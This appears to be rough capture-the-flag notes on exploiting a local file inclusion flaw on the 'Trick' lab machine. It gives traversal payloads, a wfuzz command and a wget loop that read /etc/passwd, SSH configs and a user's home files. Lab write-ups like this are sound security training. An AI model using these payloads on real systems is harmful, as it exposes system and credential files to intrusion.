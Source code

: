 


After updating /etc/hosts file, the preprod-marketing.trick.htb poped up. 
http://preprod-marketing.trick.htb/index.php?page=services.html
http://preprod-marketing.trick.htb/index.php?page=about.html
http://preprod-marketing.trick.htb/index.php?page=contact.html

Time to do directory traversal. 
```
http://preprod-marketing.trick.htb/index.php?page=..//..//..//..//..//etc/passwd
Didn't work. Instead of trying harder. Decided to trying smarter with fuzzer. 



└─$ wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//FUZZ --hw 0 >> LFI.Marketing.linux_all


└─$ cat LFI.Marketing.linux_all|awk -F '"' '{print $2}' >> files.txt
└─$  cat LFI.Marketing.linux_all|awk -F '"' '{print $2}' |grep -i root >> sensitive_files.txt
└─$  cat LFI.Marketing.linux_all|awk -F '"' '{print $2}' |grep -i home >> sensitive_files.txt

:%s!\~/!/home/michael/!                                                                                                                                 



└─$ cat existing_files.txt |awk -F "//" '{print $5}'  


Weird command...output
$ while read -r line; do wget http://preprod-marketing.trick.htb/index.php?page=....//....//....//..../"$line"  ; done <  ../sensitive_files.txt

update the senstive_files.txt :%s!///!//!                                                                                                                                            
....//....//....//....//home/michael/anaconda-ks.cfg




'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fssh%2Fssh_config'                                                                                          
'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fssh%2Fsshd_config'



From vim

	:%s!^!//!
	:%s!root!home/michael!                                                                                                                                 

```
